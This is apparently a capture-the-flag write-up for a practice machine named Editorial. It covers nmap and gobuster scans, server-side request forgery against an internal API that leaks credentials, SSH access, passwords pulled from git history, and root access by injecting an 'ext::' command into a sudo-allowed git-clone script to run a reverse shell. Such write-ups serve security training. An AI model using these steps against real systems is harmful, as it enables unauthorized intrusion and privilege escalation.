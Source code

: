 **Ping**
![[Pasted image 20240616144156.png]]

Nmap default Scan
```
nmap 10.10.11.20 -oN dnmap 
```
![[Pasted image 20240616144317.png]]

Nmap Script and Service Scan
```
nmap 10.10.11.20 -sV -sC -A -oN snmap
```
![[Pasted image 20240616144607.png]]

Nmap All port Scan
```
nmap -p- --min-rate 10000 10.10.11.20 -oN anmap
```
![[Pasted image 20240616144545.png]]

I have added the editorial.htb to my hosts file
![[Pasted image 20240616144700.png]]

On Port 80
![[Pasted image 20240616144730.png]]

Gobuster Scan Directory Traversal
```
gobuster dir -u http://editorial.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster.txt
```
![[Pasted image 20240616145236.png]]

/upload
![[Pasted image 20240616145358.png]]
![[Pasted image 20240616145426.png]]


I think this the vulnerable part
![[Pasted image 20240616162955.png]]

I'm getting request
![[Pasted image 20240616163025.png]]

Will check internal port 5000
![[Pasted image 20240616171142.png]]

Burp request/response
![[Pasted image 20240616171206.png]]

Followed by POST request for http://127.0.0.1:5000 Got a GET request and response automatically.
![[Pasted image 20240616171058.png]]
Can see some interesting endpoint info's.


Will try to retrieve the Information from endpoints We have got
```
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
```

This look's interesting
```
/api/latest/metadata/messages/authors
```
![[Pasted image 20240616173854.png]]

burp response
![[Pasted image 20240616173659.png]]

Followed by
![[Pasted image 20240616173810.png]]
Got the credentials.
```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

Will ssh now
```
ssh dev@10.10.11.20
```
Credentials
```
ssh session
username: dev
password: dev080217_devAPI!@
```
![[Pasted image 20240616174125.png]]
![[Pasted image 20240616174137.png]]

**Got user.txt**
![[Pasted image 20240616174414.png]]

Will  jump to Privilege Escalation....


We can se there is another directory **apps** 
![[Pasted image 20240616180115.png]]
we can also see there is .git directory

Look's interesting, will exploit git now
```
git log
```
![[Pasted image 20240616180216.png]]

We already know prod is another user in the machine, will analyse the commit
```
git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
```
![[Pasted image 20240616180454.png]]
Coool...!
We got the creds of user prod

Will switch to Prod
```
su prod
```
Credentials
```
username: prod
password: 080217_Producti0n_2023!@
```
![[Pasted image 20240616180617.png]]
Niceeeee:)

Will see Prod's sudo Privileges
![[Pasted image 20240616185136.png]]
Nice, we can run a python program as root

Will check the permission for the file
![[Pasted image 20240616185300.png]]
We only have read and execute access, but it has wildcard *

Created a bash script for reverse shell
![[Pasted image 20240616185423.png]]

Transferred to target machine /tmp directory
![[Pasted image 20240616185521.png]]

Time to abuse the python code with our script
```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::/tmp/rev.sh'
```
![[Pasted image 20240616185611.png]]

Got reverse shell as root
![[Pasted image 20240616185642.png]]

**Got root.txt**
![[Pasted image 20240616185723.png]]




